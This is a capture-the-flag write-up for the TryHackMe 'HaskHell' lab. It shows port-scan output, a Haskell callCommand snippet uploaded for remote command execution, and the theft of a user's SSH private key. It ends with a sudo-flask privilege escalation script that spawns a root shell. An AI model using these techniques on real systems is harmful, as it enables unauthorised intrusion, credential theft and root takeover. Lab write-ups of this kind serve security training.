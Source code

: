 ------------------

### CTF: TRYHACKME
### LAB: HASKHELL

------------------

![image](https://github.com/user-attachments/assets/39815188-4107-45f4-bf42-317c6944b985)

------------------

### RECONNAISANCE

- Rustscan's output

      ❯ rustscan -a 10.10.245.164 -- -sC -sV
      .----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
      | {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
      | .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
      `-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
      The Modern Day Port Scanner.
      ________________________________________
      : https://discord.gg/GFrQsGy           :
      : https://github.com/RustScan/RustScan :
       --------------------------------------
      🌍HACK THE PLANET🌍
      
      [~] The config file is expected to be at "/home/sensei/.rustscan.toml"
      [!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
      [!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
      Open 10.10.245.164:22
      Open 10.10.245.164:5001
      [~] Starting Script(s)
      [>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")
      
      [~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-27 09:03 EDT
      NSE: Loaded 156 scripts for scanning.
      NSE: Script Pre-scanning.
      NSE: Starting runlevel 1 (of 3) scan.
      Initiating NSE at 09:03
      Completed NSE at 09:03, 0.00s elapsed
      NSE: Starting runlevel 2 (of 3) scan.
      Initiating NSE at 09:03
      Completed NSE at 09:03, 0.00s elapsed
      NSE: Starting runlevel 3 (of 3) scan.
      Initiating NSE at 09:03
      Completed NSE at 09:03, 0.00s elapsed
      Initiating Ping Scan at 09:03
      Scanning 10.10.245.164 [2 ports]
      Completed Ping Scan at 09:03, 0.16s elapsed (1 total hosts)
      Initiating Parallel DNS resolution of 1 host. at 09:03
      Completed Parallel DNS resolution of 1 host. at 09:03, 0.05s elapsed
      DNS resolution of 1 IPs took 0.05s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
      Initiating Connect Scan at 09:03
      Scanning 10.10.245.164 [2 ports]
      Discovered open port 22/tcp on 10.10.245.164
      Discovered open port 5001/tcp on 10.10.245.164
      Completed Connect Scan at 09:03, 0.16s elapsed (2 total ports)
      Initiating Service scan at 09:03
      Scanning 2 services on 10.10.245.164
      Completed Service scan at 09:03, 19.79s elapsed (2 services on 1 host)
      NSE: Script scanning 10.10.245.164.
      NSE: Starting runlevel 1 (of 3) scan.
      Initiating NSE at 09:03
      Completed NSE at 09:04, 26.73s elapsed
      NSE: Starting runlevel 2 (of 3) scan.
      Initiating NSE at 09:04
      Completed NSE at 09:04, 1.14s elapsed
      NSE: Starting runlevel 3 (of 3) scan.
      Initiating NSE at 09:04
      Completed NSE at 09:04, 0.00s elapsed
      Nmap scan report for 10.10.245.164
      Host is up, received conn-refused (0.16s latency).
      Scanned at 2024-08-27 09:03:21 EDT for 49s
      
      PORT     STATE SERVICE REASON  VERSION
      22/tcp   open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
      | ssh-hostkey: 
      |   2048 1d:f3:53:f7:6d:5b:a1:d4:84:51:0d:dd:66:40:4d:90 (RSA)
      | ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQD6azVu3Hr+20SblWk0j7SeT8U3VySD4u18ChyDYyOoZiza2PTe1qsuwnw06/kboHaLejqPmnxkMDWgEeXoW0L11q2D8mfSf8EVvk++7bNqQ0mlkjdcknOs11mdYqSOkM1yw06LolltKtjlf/FpT706QFkRKQO30fT4YgKY6GD71aYdafhTBgZlXA51pGyruDUOP+lqhVPvLZJnI/oOTWkv5kT0a3T+FGRZfEi+GBrhvxP7R7n3QFRSBDPKSBRYLVdlSYXPD83P1pND6F/r3BvyfHw4UY0yKbw+ntvhiRcUI2FYyN5Vj1Jrb6ipCnp5+UcFdmROOHSgWS5Qzzx5fPZB
      |   256 26:7c:bd:33:8f:bf:09:ac:9e:e3:d3:0a:c3:34:bc:14 (ECDSA)
      | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMx1lBsNtSWJvxM159Ahr110Jpf3M/dVqblDAoVXd8QSIEYIxEgeqTdbS4HaHPYnFyO1j8s6fQuUemJClGw3Bh8=
      |   256 d5:fb:55:a0:fd:e8:e1:ab:9e:46:af:b8:71:90:00:26 (ED25519)
      |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICPmznEBphODSYkIjIjOA+0dmQPxltUfnnCTjaYbc39R
      5001/tcp open  http    syn-ack Gunicorn 19.7.1
      |_http-title: Homepage
      |_http-server-header: gunicorn/19.7.1
      Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

- FFUF's output

![image](https://github.com/user-attachments/assets/5d93beae-8096-4303-8ec9-985fd083d801)

- The `homework1` page states that we can students are to submit some exercies involving haskell programming.The site states that it accepts
only haskell code and it compiles and run.Most programming languages have modules that allow execution of shell commands and if not properly filtered, it can lead to
shell commands execution

![image](https://github.com/user-attachments/assets/763ba897-f088-44f3-9ddd-014bce05cb97)

- The `submit` route allows us to upload files.I used this piece of code to execute shell commands and execute `ls`.

      import System.Process
      
      main = callCommand "<shell commands>"

![image](https://github.com/user-attachments/assets/80778add-3402-4624-a21b-19a84e016c10)

- Reverse shell

![image](https://github.com/user-attachments/assets/5f54a853-bc1c-4ceb-82ae-3a1f93e3a371)


### Pivoting to user `prof`

- I checked user `prof` directory and found his `id_rsa` private key.

![image](https://github.com/user-attachments/assets/72e5e411-0223-4b3c-952a-9c52a581bc42)

- I copied it to my machine with nc.

![image](https://github.com/user-attachments/assets/61700436-d7e1-4764-8753-ddb0cb757e24)

![image](https://github.com/user-attachments/assets/79b64576-5483-4814-a427-f060161f957b)

- SSH access

![image](https://github.com/user-attachments/assets/718da839-4ff0-49c0-b15f-88ca7371fc6e)

--------------------------

### PRIVESC with flask

- I ran `sudo -l` and discovered that I can run `flask` binary as root.

![image](https://github.com/user-attachments/assets/f2eb3cff-6a9f-4bca-9939-f56344b68fc0)

- Poc for flask,save with `app.py`

            #! /usr/bin/env python3
            import os
            from flask import Flask,render_template_string
            
            app = Flask(__name__)
            os.setuid(0)
            os.setgid(0)
            os.system("bash -p")
            
            @app.route("/")
            def index():
                return render_template_string("Life tuff ooo!!!!")
            
            if __name__ == "__main__":
               app.run(port=8080,debug=True)

- Set the environmetal variables

      export FLASK_APP=app.py
      export FLASK_ENV=development

- Root

![image](https://github.com/user-attachments/assets/02781bf4-3d16-4e4e-9bd9-be8e23c07191)


----------------------

### REFERENCES

- [Shell Command execution with Haskell](https://stackoverflow.com/questions/3470955/executing-a-system-command-in-haskell)
  
-----------------------

### THANKS FOR READING

-----------------------





  


